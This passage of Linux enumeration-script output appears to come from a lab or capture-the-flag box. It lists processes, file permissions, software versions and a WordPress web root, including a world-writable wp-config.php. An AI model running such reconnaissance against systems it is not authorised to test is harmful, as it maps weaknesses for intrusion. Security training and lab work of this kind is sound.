www-data   3522  0.0  0.4 325672  8604 ?        S    05:19   0:00 /usr/sbin/apache2 -k start
www-data   3524  0.0  0.4 325672  8604 ?        S    05:19   0:00 /usr/sbin/apache2 -k start
root       3525  0.0  0.3  95404  6920 ?        Ss   05:25   0:00 sshd: notch [priv]
notch      3527  0.0  0.2  45368  5064 ?        Ss   05:25   0:00 /lib/systemd/systemd --user
root       3529  0.0  0.0      0     0 ?        S    05:25   0:00 [kworker/0:0]
notch      3530  0.0  0.1  61480  2204 ?        S    05:25   0:00 (sd-pam)
notch      3604  0.0  0.1  95404  3520 ?        S    05:25   0:00 sshd: notch@pts/1
notch      3607  0.0  0.2  22584  5320 pts/1    Ss   05:25   0:00 -bash
root       3629  0.0  0.0      0     0 ?        S    05:26   0:00 [kworker/u256:0]
notch      3634  0.0  0.1  13388  3816 pts/1    S+   05:29   0:00 bash
notch      3635  0.0  0.1  13484  3444 pts/1    S+   05:29   0:00 bash
notch      3636  0.0  0.0   7304   660 pts/1    S+   05:29   0:00 tee -a
notch      3802  0.0  0.1  13452  2880 pts/1    S+   05:29   0:00 bash
notch      3803  0.0  0.1  37368  3352 pts/1    R+   05:29   0:00 ps aux


Process binaries & associated permissions (from above list):
1.6M -rwxr-xr-x 1 root root 1.6M Feb 15  2017 /lib/systemd/systemd
320K -rwxr-xr-x 1 root root 319K Feb 15  2017 /lib/systemd/systemd-journald
608K -rwxr-xr-x 1 root root 605K Feb 15  2017 /lib/systemd/systemd-logind
140K -rwxr-xr-x 1 root root 139K Feb 15  2017 /lib/systemd/systemd-timesyncd
444K -rwxr-xr-x 1 root root 443K Feb 15  2017 /lib/systemd/systemd-udevd
 44K -rwxr-xr-x 1 root root  44K Jun 14  2017 /sbin/agetty
   0 lrwxrwxrwx 1 root root   20 Feb 15  2017 /sbin/init -> /lib/systemd/systemd
768K -rwxr-xr-x 1 root root 766K Dec  9  2016 /sbin/iscsid
 52K -rwxr-xr-x 1 root root  51K Apr 16  2016 /sbin/lvmetad
504K -rwxr-xr-x 1 root root 502K Feb 20  2017 /sbin/mdadm
220K -rwxr-xr-x 1 root root 219K Jan 12  2017 /usr/bin/dbus-daemon
 20K -rwxr-xr-x 1 root root  19K May 18  2017 /usr/bin/lxcfs
 44K -rwxr-xr-x 1 root root  44K Feb  9  2017 /usr/bin/vmtoolsd
164K -rwxr-xr-x 1 root root 162K Nov  3  2016 /usr/lib/accountsservice/accounts-daemon
 16K -rwxr-xr-x 1 root root  15K Jan 17  2016 /usr/lib/policykit-1/polkitd
 19M -rwxr-xr-x 1 root root  19M Apr 29  2017 /usr/lib/snapd/snapd
 48K -rwxr-xr-x 1 root root  47K Apr  8  2016 /usr/sbin/acpid
648K -rwxr-xr-x 1 root root 647K Jun 26  2017 /usr/sbin/apache2
 28K -rwxr-xr-x 1 root root  27K Jan 14  2016 /usr/sbin/atd
 44K -rwxr-xr-x 1 root root  44K Apr  5  2016 /usr/sbin/cron
 24M -rwxr-xr-x 1 root root  24M Apr 26  2017 /usr/sbin/mysqld
588K -rwxr-xr-x 1 root root 586K Apr  5  2016 /usr/sbin/rsyslogd
784K -rwxr-xr-x 1 root root 781K Mar 16  2017 /usr/sbin/sshd


/etc/init.d/ binary permissions:
total 344
drwxr-xr-x   2 root root 4096 Jul  2  2017 .
drwxr-xr-x 101 root root 4096 Jul 16  2017 ..
-rwxr-xr-x   1 root root 2243 Feb  9  2016 acpid
-rwxr-xr-x   1 root root 8087 Apr  5  2016 apache2
-rwxr-xr-x   1 root root 2210 Apr  5  2016 apache-htcacheclean
-rwxr-xr-x   1 root root 6223 Mar  3  2017 apparmor
-rwxr-xr-x   1 root root 2799 Mar 31  2016 apport
-rwxr-xr-x   1 root root 1071 Dec  6  2015 atd
-rwxr-xr-x   1 root root 1275 Jan 19  2016 bootmisc.sh
-rwxr-xr-x   1 root root 3807 Jan 19  2016 checkfs.sh
-rwxr-xr-x   1 root root 1098 Jan 19  2016 checkroot-bootclean.sh
-rwxr-xr-x   1 root root 9353 Jan 19  2016 checkroot.sh
-rwxr-xr-x   1 root root 1343 Apr  4  2016 console-setup
-rwxr-xr-x   1 root root 3049 Apr  5  2016 cron
-rwxr-xr-x   1 root root  937 Mar 28  2015 cryptdisks
-rwxr-xr-x   1 root root  896 Mar 28  2015 cryptdisks-early
-rwxr-xr-x   1 root root 2813 Dec  1  2015 dbus
-rw-r--r--   1 root root 1275 Jul  2  2017 .depend.boot
-rw-r--r--   1 root root 1177 Jul  2  2017 .depend.start
-rw-r--r--   1 root root 1312 Jul  2  2017 .depend.stop
-rwxr-xr-x   1 root root 1105 Mar 15  2016 grub-common
-rwxr-xr-x   1 root root 1336 Jan 19  2016 halt
-rwxr-xr-x   1 root root 1423 Jan 19  2016 hostname.sh
-rwxr-xr-x   1 root root 3809 Mar 12  2016 hwclock.sh
-rwxr-xr-x   1 root root 2372 Apr 11  2016 irqbalance
-rwxr-xr-x   1 root root 1503 Mar 29  2016 iscsid
-rwxr-xr-x   1 root root 1804 Apr  4  2016 keyboard-setup
-rwxr-xr-x   1 root root 1300 Jan 19  2016 killprocs
-rwxr-xr-x   1 root root 2087 Dec 20  2015 kmod
-rwxr-xr-x   1 root root  695 Oct 30  2015 lvm2
-rwxr-xr-x   1 root root  571 Oct 30  2015 lvm2-lvmetad
-rwxr-xr-x   1 root root  586 Oct 30  2015 lvm2-lvmpolld
-rwxr-xr-x   1 root root 2300 Feb  3  2017 lxcfs
-rwxr-xr-x   1 root root 2541 Feb  3  2017 lxd
-rwxr-xr-x   1 root root 2611 Apr 11  2016 mdadm
-rwxr-xr-x   1 root root 1199 Jul 16  2014 mdadm-waitidle
-rwxr-xr-x   1 root root  703 Jan 19  2016 mountall-bootclean.sh
-rwxr-xr-x   1 root root 2301 Jan 19  2016 mountall.sh
-rwxr-xr-x   1 root root 1461 Jan 19  2016 mountdevsubfs.sh
-rwxr-xr-x   1 root root 1564 Jan 19  2016 mountkernfs.sh
-rwxr-xr-x   1 root root  711 Jan 19  2016 mountnfs-bootclean.sh
-rwxr-xr-x   1 root root 2456 Jan 19  2016 mountnfs.sh
-rwxr-xr-x   1 root root 5607 Feb  3  2017 mysql
-rwxr-xr-x   1 root root 4771 Jul 19  2015 networking
-rwxr-xr-x   1 root root 1581 Oct 15  2015 ondemand
-rwxr-xr-x   1 root root 2503 Mar 29  2016 open-iscsi
-rwxr-xr-x   1 root root 1578 Sep 18  2016 open-vm-tools
-rwxr-xr-x   1 root root 4987 May 11  2017 php7.0-fpm
-rwxr-xr-x   1 root root 1366 Nov 15  2015 plymouth
-rwxr-xr-x   1 root root  752 Nov 15  2015 plymouth-log
-rwxr-xr-x   1 root root 1192 Sep  6  2015 procps
-rwxr-xr-x   1 root root 5262 Apr  5  2016 proftpd
-rwxr-xr-x   1 root root 6366 Jan 19  2016 rc
-rwxr-xr-x   1 root root  820 Jan 19  2016 rc.local
-rwxr-xr-x   1 root root  117 Jan 19  2016 rcS
-rw-r--r--   1 root root 2427 Jan 19  2016 README
-rwxr-xr-x   1 root root  661 Jan 19  2016 reboot
-rwxr-xr-x   1 root root 4149 Nov 23  2015 resolvconf
-rwxr-xr-x   1 root root 4355 Jul 10  2014 rsync
-rwxr-xr-x   1 root root 2796 Feb  3  2016 rsyslog
-rwxr-xr-x   1 root root 1226 Jun  9  2015 screen-cleanup
-rwxr-xr-x   1 root root 3927 Jan 19  2016 sendsigs
-rwxr-xr-x   1 root root  597 Jan 19  2016 single
-rw-r--r--   1 root root 1087 Jan 19  2016 skeleton
-rwxr-xr-x   1 root root 4077 Mar 16  2017 ssh
-rwxr-xr-x   1 root root 6087 Apr 12  2016 udev
-rwxr-xr-x   1 root root 2049 Aug  7  2014 ufw
-rwxr-xr-x   1 root root 2737 Jan 19  2016 umountfs
-rwxr-xr-x   1 root root 2202 Jan 19  2016 umountnfs.sh
-rwxr-xr-x   1 root root 1879 Jan 19  2016 umountroot
-rwxr-xr-x   1 root root 1391 Apr 20  2017 unattended-upgrades
-rwxr-xr-x   1 root root 3111 Jan 19  2016 urandom
-rwxr-xr-x   1 root root 1306 Dec 16  2016 uuidd
-rwxr-xr-x   1 root root 2757 Nov 10  2015 x11-common


### SOFTWARE #############################################
Sudo version:
Sudo version 1.8.16


MYSQL version:
mysql  Ver 14.14 Distrib 5.7.18, for Linux (x86_64) using  EditLine wrapper


Apache version:
Server version: Apache/2.4.18 (Ubuntu)
Server built:   2017-06-26T11:58:04


Apache user configuration:
APACHE_RUN_USER=www-data
APACHE_RUN_GROUP=www-data


Installed Apache modules:
Loaded Modules:
 core_module (static)
 so_module (static)
 watchdog_module (static)
 http_module (static)
 log_config_module (static)
 logio_module (static)
 version_module (static)
 unixd_module (static)
 access_compat_module (shared)
 alias_module (shared)
 auth_basic_module (shared)
 authn_core_module (shared)
 authn_file_module (shared)
 authz_core_module (shared)
 authz_host_module (shared)
 authz_user_module (shared)
 autoindex_module (shared)
 deflate_module (shared)
 dir_module (shared)
 env_module (shared)
 filter_module (shared)
 mime_module (shared)
 mpm_prefork_module (shared)
 negotiation_module (shared)
 php7_module (shared)
 setenvif_module (shared)
 status_module (shared)


Anything in the Apache home dirs?:
/var/www/:
total 12K
drwxr-xr-x  3 root     root     4.0K Jul  2  2017 .
drwxr-xr-x 14 root     root     4.0K Jul  2  2017 ..
drwxr-xr-x  7 www-data www-data 4.0K Jul  2  2017 html

/var/www/html:
total 212K
drwxr-xr-x  7 www-data www-data 4.0K Jul  2  2017 .
drwxr-xr-x  3 root     root     4.0K Jul  2  2017 ..
-rw-r--r--  1 www-data www-data  235 Jul  2  2017 .htaccess
-rw-r--r--  1 www-data www-data  418 Sep 25  2013 index.php
-rw-r--r--  1 www-data www-data  20K Jan  2  2017 license.txt
drwxr-xr-x  4 www-data www-data 4.0K Jul  2  2017 plugins
-rw-r--r--  1 www-data www-data 7.3K Dec 12  2016 readme.html
drwxr-xr-x  2 www-data www-data 4.0K Jul  2  2017 wiki
-rw-r--r--  1 www-data www-data 5.4K Sep 27  2016 wp-activate.php
drwxr-xr-x  9 www-data www-data 4.0K Jun  8  2017 wp-admin
-rw-r--r--  1 www-data www-data  364 Dec 19  2015 wp-blog-header.php
-rw-r--r--  1 www-data www-data 1.6K Aug 29  2016 wp-comments-post.php
-rw-rw-rw-  1 www-data www-data 3.1K Jul  2  2017 wp-config.php
-rw-r--r--  1 www-data www-data 2.8K Dec 16  2015 wp-config-sample.php
drwxr-xr-x  5 www-data www-data 4.0K Jul  2  2017 wp-content
-rw-r--r--  1 www-data www-data 3.3K May 24  2015 wp-cron.php
drwxr-xr-x 18 www-data www-data  12K Jun  8  2017 wp-includes
-rw-r--r--  1 www-data www-data 2.4K Nov 21  2016 wp-links-opml.php
-rw-r--r--  1 www-data www-data 3.3K Oct 25  2016 wp-load.php
-rw-r--r--  1 www-data www-data  34K May 12  2017 wp-login.php
-rw-r--r--  1 www-data www-data 7.9K Jan 11  2017 wp-mail.php
-rw-r--r--  1 www-data www-data  16K Apr  6  2017 wp-settings.php
-rw-r--r--  1 www-data www-data  30K Jan 24  2017 wp-signup.php
-rw-r--r--  1 www-data www-data 4.5K Oct 14  2016 wp-trackback.php
-rw-r--r--  1 www-data www-data 3.0K Aug 31  2016 xmlrpc.php

/var/www/html/plugins:
total 24K
drwxr-xr-x 4 www-data www-data 4.0K Jul  2  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Jul  2  2017 ..
drwxrwxr-x 4 www-data www-data 4.0K Sep 16  2014 assets
drwxrwxr-x 2 www-data www-data 4.0K Jul  2  2017 files
-rwxrwxr-x 1 www-data www-data  745 Jul  2  2017 index.html
-rwxrwxr-x 1 www-data www-data 1.1K Sep 16  2014 scan.php

/var/www/html/plugins/assets:
total 16K
drwxrwxr-x 4 www-data www-data 4.0K Sep 16  2014 .
drwxr-xr-x 4 www-data www-data 4.0K Jul  2  2017 ..
drwxrwxr-x 2 www-data www-data 4.0K Sep 16  2014 css
drwxrwxr-x 2 www-data www-data 4.0K Sep 16  2014 js

/var/www/html/plugins/assets/css:
total 20K
drwxrwxr-x 2 www-data www-data 4.0K Sep 16  2014 .
drwxrwxr-x 4 www-data www-data 4.0K Sep 16  2014 ..
-rwxrwxr-x 1 www-data www-data 9.6K Sep 16  2014 styles.css

/var/www/html/plugins/assets/js:
total 16K
drwxrwxr-x 2 www-data www-data 4.0K Sep 16  2014 .
drwxrwxr-x 4 www-data www-data 4.0K Sep 16  2014 ..
-rwxrwxr-x 1 www-data www-data 8.0K Sep 16  2014 script.js

/var/www/html/plugins/files:
total 536K
drwxrwxr-x 2 www-data www-data 4.0K Jul  2  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Jul  2  2017 ..
-rw-r--r-- 1 www-data www-data  883 Jul  2  2017 BlockyCore.jar
-rw-r--r-- 1 www-data www-data 521K Jul  2  2017 griefprevention-1.11.2-3.1.1.298.jar

/var/www/html/wiki:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Jul  2  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Jul  2  2017 ..
-rw-r--r-- 1 www-data www-data  380 Jul  2  2017 index.php

/var/www/html/wp-admin:
total 928K
drwxr-xr-x 9 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Jul  2  2017 ..
-rw-r--r-- 1 www-data www-data  15K Jun  8  2017 about.php
-rw-r--r-- 1 www-data www-data 3.8K May 10  2017 admin-ajax.php
-rw-r--r-- 1 www-data www-data 2.6K Jan  9  2017 admin-footer.php
-rw-r--r-- 1 www-data www-data  405 Jul  6  2016 admin-functions.php
-rw-r--r-- 1 www-data www-data 7.2K Nov 21  2016 admin-header.php
-rw-r--r-- 1 www-data www-data  11K Jan 22  2017 admin.php
-rw-r--r-- 1 www-data www-data 1.7K Feb 25  2016 admin-post.php
-rw-r--r-- 1 www-data www-data 4.2K Jan 10  2017 async-upload.php
-rw-r--r-- 1 www-data www-data  11K Oct  4  2016 comment.php
-rw-r--r-- 1 www-data www-data 4.7K Jun  1  2017 credits.php
drwxr-xr-x 3 www-data www-data 4.0K Jun  8  2017 css
-rw-r--r-- 1 www-data www-data  20K Oct 26  2016 custom-background.php
-rw-r--r-- 1 www-data www-data  45K May 19  2017 custom-header.php
-rw-r--r-- 1 www-data www-data 7.3K May 16  2017 customize.php
-rw-r--r-- 1 www-data www-data  14K Dec 14  2016 edit-comments.php
-rw-r--r-- 1 www-data www-data  32K May  7  2017 edit-form-advanced.php
-rw-r--r-- 1 www-data www-data 7.2K Sep 17  2016 edit-form-comment.php
-rw-r--r-- 1 www-data www-data 5.9K Dec  7  2016 edit-link-form.php
-rw-r--r-- 1 www-data www-data  16K Jan 21  2017 edit.php
-rw-r--r-- 1 www-data www-data 9.1K May 14  2017 edit-tag-form.php
-rw-r--r-- 1 www-data www-data  20K May 12  2017 edit-tags.php
-rw-r--r-- 1 www-data www-data  11K Oct  4  2016 export.php
-rw-r--r-- 1 www-data www-data 3.4K Jun  1  2017 freedoms.php
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 images
-rw-r--r-- 1 www-data www-data 7.1K Oct  4  2016 import.php
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 includes
-rw-r--r-- 1 www-data www-data 6.1K May 18  2017 index.php
-rw-r--r-- 1 www-data www-data 5.7K Oct 14  2015 install-helper.php
-rw-r--r-- 1 www-data www-data  16K Mar 23  2017 install.php
drwxr-xr-x 3 www-data www-data 4.0K Jun  8  2017 js
-rw-r--r-- 1 www-data www-data  700 Jun 29  2016 link-add.php
-rw-r--r-- 1 www-data www-data 3.9K Dec  7  2016 link-manager.php
-rw-r--r-- 1 www-data www-data 2.4K Oct 24  2016 link-parse-opml.php
-rw-r--r-- 1 www-data www-data 2.6K Jul 10  2016 link.php
-rw-r--r-- 1 www-data www-data 2.2K Aug 31  2016 load-scripts.php
-rw-r--r-- 1 www-data www-data 2.9K Aug 31  2016 load-styles.php
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 maint
-rw-r--r-- 1 www-data www-data 3.1K Oct  4  2016 media-new.php
-rw-r--r-- 1 www-data www-data 5.2K Dec  7  2016 media.php
-rw-r--r-- 1 www-data www-data 3.3K Aug 22  2016 media-upload.php
-rw-r--r-- 1 www-data www-data 9.1K Nov  4  2016 menu-header.php
-rw-r--r-- 1 www-data www-data  13K Apr  7  2017 menu.php
-rw-r--r-- 1 www-data www-data  320 Sep 25  2013 moderation.php
-rw-r--r-- 1 www-data www-data  211 Sep 25  2013 ms-admin.php
-rw-r--r-- 1 www-data www-data 3.9K Oct 26  2016 ms-delete-site.php
-rw-r--r-- 1 www-data www-data  231 Sep 25  2013 ms-edit.php
-rw-r--r-- 1 www-data www-data  236 Sep 25  2013 ms-options.php
-rw-r--r-- 1 www-data www-data  228 Sep 25  2013 ms-sites.php
-rw-r--r-- 1 www-data www-data  230 Sep 25  2013 ms-themes.php
-rw-r--r-- 1 www-data www-data  232 Sep 25  2013 ms-upgrade-network.php
-rw-r--r-- 1 www-data www-data  228 Sep 25  2013 ms-users.php
-rw-r--r-- 1 www-data www-data 4.4K Dec  9  2016 my-sites.php
-rw-r--r-- 1 www-data www-data  40K Mar 22  2017 nav-menus.php
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 network
-rw-r--r-- 1 www-data www-data 5.2K Apr  7  2017 network.php
-rw-r--r-- 1 www-data www-data  15K May 18  2017 options-discussion.php
-rw-r--r-- 1 www-data www-data  15K May 23  2017 options-general.php
-rw-r--r-- 1 www-data www-data  488 May 13  2016 options-head.php
-rw-r--r-- 1 www-data www-data 5.8K May 23  2017 options-media.php
-rw-r--r-- 1 www-data www-data  15K Oct  4  2016 options-permalink.php
-rw-r--r-- 1 www-data www-data  12K Jan 20  2017 options.php
-rw-r--r-- 1 www-data www-data 8.2K Apr 23  2017 options-reading.php
-rw-r--r-- 1 www-data www-data 8.0K Oct  4  2016 options-writing.php
-rw-r--r-- 1 www-data www-data  12K Oct  7  2016 plugin-editor.php
-rw-r--r-- 1 www-data www-data 6.1K Dec  7  2016 plugin-install.php
-rw-r--r-- 1 www-data www-data  22K Mar  6  2017 plugins.php
-rw-r--r-- 1 www-data www-data 2.7K Jul 17  2016 post-new.php
-rw-r--r-- 1 www-data www-data 8.0K Jan 10  2017 post.php
-rw-r--r-- 1 www-data www-data  635 Aug 31  2016 press-this.php
-rw-r--r-- 1 www-data www-data  296 Sep 25  2013 profile.php
-rw-r--r-- 1 www-data www-data 5.0K Nov 21  2016 revision.php
-rw-r--r-- 1 www-data www-data  15K Oct 25  2016 setup-config.php
-rw-r--r-- 1 www-data www-data 2.1K May 12  2017 term.php
-rw-r--r-- 1 www-data www-data  12K Oct  4  2016 theme-editor.php
-rw-r--r-- 1 www-data www-data  15K May 11  2017 theme-install.php
-rw-r--r-- 1 www-data www-data  21K May  8  2017 themes.php
-rw-r--r-- 1 www-data www-data 5.4K Oct  4  2016 tools.php
-rw-r--r-- 1 www-data www-data  31K Jan 11  2017 update-core.php
-rw-r--r-- 1 www-data www-data  11K Aug 31  2016 update.php
-rw-r--r-- 1 www-data www-data  340 Jul  6  2016 upgrade-functions.php
-rw-r--r-- 1 www-data www-data 4.5K Dec  8  2015 upgrade.php
-rw-r--r-- 1 www-data www-data  13K Mar 31  2017 upload.php
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 user
-rw-r--r-- 1 www-data www-data  27K Jan 15  2017 user-edit.php
-rw-r--r-- 1 www-data www-data  21K Jan 24  2017 user-new.php
-rw-r--r-- 1 www-data www-data  18K Jan 24  2017 users.php
-rw-r--r-- 1 www-data www-data  18K Mar 22  2017 widgets.php

/var/www/html/wp-admin/css:
total 1.9M
drwxr-xr-x 3 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 8.9K Jun  8  2017 about.css
-rw-r--r-- 1 www-data www-data 6.4K Jun  8  2017 about.min.css
-rw-r--r-- 1 www-data www-data 8.9K Jun  8  2017 about-rtl.css
-rw-r--r-- 1 www-data www-data 6.4K Jun  8  2017 about-rtl.min.css
-rw-r--r-- 1 www-data www-data  20K Nov  4  2016 admin-menu.css
-rw-r--r-- 1 www-data www-data  16K Nov  4  2016 admin-menu.min.css
-rw-r--r-- 1 www-data www-data  20K Nov  4  2016 admin-menu-rtl.css
-rw-r--r-- 1 www-data www-data  16K Nov  4  2016 admin-menu-rtl.min.css
-rw-r--r-- 1 www-data www-data 2.7K Apr 18  2017 color-picker.css
-rw-r--r-- 1 www-data www-data 2.3K Apr 18  2017 color-picker.min.css
-rw-r--r-- 1 www-data www-data 2.7K Apr 18  2017 color-picker-rtl.css
-rw-r--r-- 1 www-data www-data 2.3K Apr 18  2017 color-picker-rtl.min.css
drwxr-xr-x 9 www-data www-data 4.0K Jun  8  2017 colors
-rw-r--r-- 1 www-data www-data  68K May 25  2017 common.css
-rw-r--r-- 1 www-data www-data  52K May 25  2017 common.min.css
-rw-r--r-- 1 www-data www-data  68K May 25  2017 common-rtl.css
-rw-r--r-- 1 www-data www-data  52K May 25  2017 common-rtl.min.css
-rw-r--r-- 1 www-data www-data  44K May 15  2017 customize-controls.css
-rw-r--r-- 1 www-data www-data  37K May 15  2017 customize-controls.min.css
-rw-r--r-- 1 www-data www-data  44K May 15  2017 customize-controls-rtl.css
-rw-r--r-- 1 www-data www-data  37K May 15  2017 customize-controls-rtl.min.css
-rw-r--r-- 1 www-data www-data  22K Apr 19  2017 customize-nav-menus.css
-rw-r--r-- 1 www-data www-data  18K Apr 19  2017 customize-nav-menus.min.css
-rw-r--r-- 1 www-data www-data  22K Apr 19  2017 customize-nav-menus-rtl.css
-rw-r--r-- 1 www-data www-data  18K Apr 19  2017 customize-nav-menus-rtl.min.css
-rw-r--r-- 1 www-data www-data  13K May 11  2017 customize-widgets.css
-rw-r--r-- 1 www-data www-data 9.7K May 11  2017 customize-widgets.min.css
-rw-r--r-- 1 www-data www-data  13K May 11  2017 customize-widgets-rtl.css
-rw-r--r-- 1 www-data www-data 9.7K May 11  2017 customize-widgets-rtl.min.css
-rw-r--r-- 1 www-data www-data  24K May 19  2017 dashboard.css
-rw-r--r-- 1 www-data www-data  19K May 19  2017 dashboard.min.css
-rw-r--r-- 1 www-data www-data  24K May 19  2017 dashboard-rtl.css
-rw-r--r-- 1 www-data www-data  19K May 19  2017 dashboard-rtl.min.css
-rw-r--r-- 1 www-data www-data 6.4K Jun 17  2016 deprecated-media.css
-rw-r--r-- 1 www-data www-data 5.2K Jun 17  2016 deprecated-media.min.css
-rw-r--r-- 1 www-data www-data 6.4K Jun 17  2016 deprecated-media-rtl.css
-rw-r--r-- 1 www-data www-data 5.2K Jun 17  2016 deprecated-media-rtl.min.css
-rw-r--r-- 1 www-data www-data  28K May 12  2017 edit.css
-rw-r--r-- 1 www-data www-data  22K May 12  2017 edit.min.css
-rw-r--r-- 1 www-data www-data  28K Jun  5  2017 edit-rtl.css
-rw-r--r-- 1 www-data www-data  22K Jun  5  2017 edit-rtl.min.css
-rw-r--r-- 1 www-data www-data  611 Nov 17  2013 farbtastic.css
-rw-r--r-- 1 www-data www-data  502 Jan 18  2016 farbtastic.min.css
-rw-r--r-- 1 www-data www-data  612 Nov 17  2013 farbtastic-rtl.css
-rw-r--r-- 1 www-data www-data  503 Jan 18  2016 farbtastic-rtl.min.css
-rw-r--r-- 1 www-data www-data  26K May 23  2017 forms.css
-rw-r--r-- 1 www-data www-data  20K Jun  5  2017 forms.min.css
-rw-r--r-- 1 www-data www-data  26K May 23  2017 forms-rtl.css
-rw-r--r-- 1 www-data www-data  20K Jun  5  2017 forms-rtl.min.css
-rw-r--r-- 1 www-data www-data  12K Oct 23  2016 ie.css
-rw-r--r-- 1 www-data www-data  10K Oct 23  2016 ie.min.css
-rw-r--r-- 1 www-data www-data  12K Oct 23  2016 ie-rtl.css
-rw-r--r-- 1 www-data www-data  10K Oct 23  2016 ie-rtl.min.css
-rw-r--r-- 1 www-data www-data 7.3K Sep 28  2016 install.css
-rw-r--r-- 1 www-data www-data 5.9K Sep 28  2016 install.min.css
-rw-r--r-- 1 www-data www-data 7.3K Sep 28  2016 install-rtl.css
-rw-r--r-- 1 www-data www-data 5.9K Sep 28  2016 install-rtl.min.css
-rw-r--r-- 1 www-data www-data 3.7K Jun 17  2016 l10n.css
-rw-r--r-- 1 www-data www-data 2.4K Jun 17  2016 l10n.min.css
-rw-r--r-- 1 www-data www-data 3.7K Jun 17  2016 l10n-rtl.css
-rw-r--r-- 1 www-data www-data 2.4K Jun 17  2016 l10n-rtl.min.css
-rw-r--r-- 1 www-data www-data  40K Oct 26  2016 list-tables.css
-rw-r--r-- 1 www-data www-data  32K Oct 26  2016 list-tables.min.css
-rw-r--r-- 1 www-data www-data  40K Oct 26  2016 list-tables-rtl.css
-rw-r--r-- 1 www-data www-data  32K Oct 26  2016 list-tables-rtl.min.css
-rw-r--r-- 1 www-data www-data 4.1K May 18  2017 login.css
-rw-r--r-- 1 www-data www-data  25K Jun  5  2017 login.min.css
-rw-r--r-- 1 www-data www-data 4.1K May 18  2017 login-rtl.css
-rw-r--r-- 1 www-data www-data  25K Jun  5  2017 login-rtl.min.css
-rw-r--r-- 1 www-data www-data  24K May  4  2017 media.css
-rw-r--r-- 1 www-data www-data  20K May  4  2017 media.min.css
-rw-r--r-- 1 www-data www-data  24K May  4  2017 media-rtl.css
-rw-r--r-- 1 www-data www-data  20K May  4  2017 media-rtl.min.css
-rw-r--r-- 1 www-data www-data  16K Feb  9  2017 nav-menus.css
-rw-r--r-- 1 www-data www-data  12K Feb  9  2017 nav-menus.min.css
-rw-r--r-- 1 www-data www-data  16K Feb  9  2017 nav-menus-rtl.css
-rw-r--r-- 1 www-data www-data  12K Feb  9  2017 nav-menus-rtl.min.css
-rw-r--r-- 1 www-data www-data  35K Mar 31  2017 press-this.css
-rw-r--r-- 1 www-data www-data 1.4K Jul 26  2016 press-this-editor.css
-rw-r--r-- 1 www-data www-data  782 May  4  2016 press-this-editor.min.css
-rw-r--r-- 1 www-data www-data 1.4K Jul 26  2016 press-this-editor-rtl.css
-rw-r--r-- 1 www-data www-data  783 May  5  2016 press-this-editor-rtl.min.css
-rw-r--r-- 1 www-data www-data  28K Mar 31  2017 press-this.min.css
-rw-r--r-- 1 www-data www-data  35K Mar 31  2017 press-this-rtl.css
-rw-r--r-- 1 www-data www-data  28K Mar 31  2017 press-this-rtl.min.css
-rw-r--r-- 1 www-data www-data  11K Jun 17  2016 revisions.css
-rw-r--r-- 1 www-data www-data 8.5K Jun 17  2016 revisions.min.css
-rw-r--r-- 1 www-data www-data  11K Jun 17  2016 revisions-rtl.css
-rw-r--r-- 1 www-data www-data 8.5K Jun 17  2016 revisions-rtl.min.css
-rw-r--r-- 1 www-data www-data 1.1K Jul  5  2016 site-icon.css
-rw-r--r-- 1 www-data www-data  736 Jul  5  2016 site-icon.min.css
-rw-r--r-- 1 www-data www-data 1.1K Jul  5  2016 site-icon-rtl.css
-rw-r--r-- 1 www-data www-data  738 Jul  5  2016 site-icon-rtl.min.css
-rw-r--r-- 1 www-data www-data  42K May  8  2017 themes.css
-rw-r--r-- 1 www-data www-data  33K Jun  5  2017 themes.min.css
-rw-r--r-- 1 www-data www-data  42K May  8  2017 themes-rtl.css
-rw-r--r-- 1 www-data www-data  33K Jun  5  2017 themes-rtl.min.css
-rw-r--r-- 1 www-data www-data  13K May 12  2017 widgets.css
-rw-r--r-- 1 www-data www-data  11K May 12  2017 widgets.min.css
-rw-r--r-- 1 www-data www-data  13K May 12  2017 widgets-rtl.css
-rw-r--r-- 1 www-data www-data  11K May 12  2017 widgets-rtl.min.css
-rw-r--r-- 1 www-data www-data  365 Jun 29  2015 wp-admin.css
-rw-r--r-- 1 www-data www-data  421 Jan 18  2016 wp-admin.min.css
-rw-r--r-- 1 www-data www-data  421 Jun 29  2015 wp-admin-rtl.css
-rw-r--r-- 1 www-data www-data  477 Jan 18  2016 wp-admin-rtl.min.css

/var/www/html/wp-admin/css/colors:
total 56K
drwxr-xr-x 9 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data  12K May  6  2017 _admin.scss
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 blue
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 coffee
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 ectoplasm
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 light
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 midnight
-rw-r--r-- 1 www-data www-data 1.5K Sep  1  2016 _mixins.scss
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 ocean
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 sunrise
-rw-r--r-- 1 www-data www-data 1.9K Apr  5  2015 _variables.scss

/var/www/html/wp-admin/css/colors/blue:
total 68K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data  13K May  6  2017 colors.css
-rw-r--r-- 1 www-data www-data  12K Nov 15  2016 colors.min.css
-rw-r--r-- 1 www-data www-data  13K May  6  2017 colors-rtl.css
-rw-r--r-- 1 www-data www-data  12K Nov 15  2016 colors-rtl.min.css
-rw-r--r-- 1 www-data www-data  249 Feb  6  2014 colors.scss

/var/www/html/wp-admin/css/colors/coffee:
total 68K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Jun  8  2017 ..
